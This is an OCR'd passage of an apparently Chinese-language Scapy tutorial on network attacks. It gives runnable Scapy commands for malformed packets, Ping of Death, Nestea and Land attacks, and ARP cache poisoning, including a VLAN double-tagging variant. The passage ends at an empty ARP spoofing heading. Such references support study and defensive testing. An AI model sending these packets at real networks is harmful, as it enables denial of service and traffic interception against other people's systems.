 ### 9.1. Maiformed packets

例：
```
>>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())
```

### 9.2. Ping of Death

ping of death 是一种向目标电脑发送错误封包的或恶意的 ping 指令的攻击方式；

一般而言，在 ICMP 规范中，ICMP 回送消息在数据包的数据部分只有 65,536 个字节，送出超过 65,536 字节 ping 封包对 IP 通讯协定而言不是合法用法，若送出 ping 封包时分成多个片段，目标电脑必须不断重组封包，期间可能因发缓冲区溢位，而导致系统崩溃；

在 1997-1998 年后几乎所有的现代系统都已经修正了这问题；
例：
```
>>> send(fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )
```

### 9.3. Nestea attack

```
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10))
>>> send(IP(dst=target, id=42, frag=48)/("X"*116))
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))
```

### 9.4. Land attack

(designed for Microsoft Windows)

```
>>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```

## 10. ARP attack

### 10.1. ARP Cache Poisoning

通过 VLAN 跳跃攻击进行 ARP 缓存投毒，使得其他客户端无法加入真实的网关地址；

经典的 ARP 缓存投毒：　
```　　　
>>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```

使用 double 802.1q encapsulation 进行 ARP 缓存投毒：
```
>>> send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2)
      /ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```

### 10.2. ARP Spoofing Attack
